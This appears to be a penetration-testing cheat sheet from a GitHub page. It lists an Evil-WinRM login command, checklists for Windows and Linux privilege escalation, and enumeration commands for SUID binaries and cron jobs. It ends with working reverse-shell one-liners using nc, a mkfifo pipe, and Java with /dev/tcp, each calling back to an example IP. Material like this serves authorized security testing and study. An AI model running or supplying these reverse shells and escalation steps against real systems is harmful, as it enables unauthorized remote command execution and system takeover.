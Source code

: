 <h3>Defenses</h3>

<h2 id="windows">Windows</h2>

<h3 id="winrm">Evil WinRm</h3>
Port 5985

	evil-winrm -i 127.0.0.1 -u aloha -p aloha123

<h3 id="winprivesc">Windows Privilege Escalation</h3>

<b>Checklist</b>

* Misconfigured services
* Replaceable services
* Configuration files and data containing passwords
* Registry settings
* Information stored in registry


<h2 id="nix">NIX</h2>

<h3 id="nixprivesc">Linux Privilege Escalation</h3>

<b>Checklist</b>
	
* Config files
* SUID binaries
* Scheduled jobs
* Running application/Services
* Distribution
* Kernel version

<b>Config files</b>
	
	ls -ls /etc/ | grep .conf
	ls -ls /var/www/html
	

<b>SUID binaries</b>
	
	find /* -user root -perm -4000 -print 2>/dev/null

<b>Crontab</b>
	
	pspy64 -pf -i 1000 #print commands/file system events and scan procfs every second

<h3 id="revshell">Reverse shells</h3>

<b>nc/ncat</b>

	nc -nlvp 4444
	nc -nvvv 10.10.10.10 4444 -e /bin/sh
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

<b>bash</b>

<b>Java</b>

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
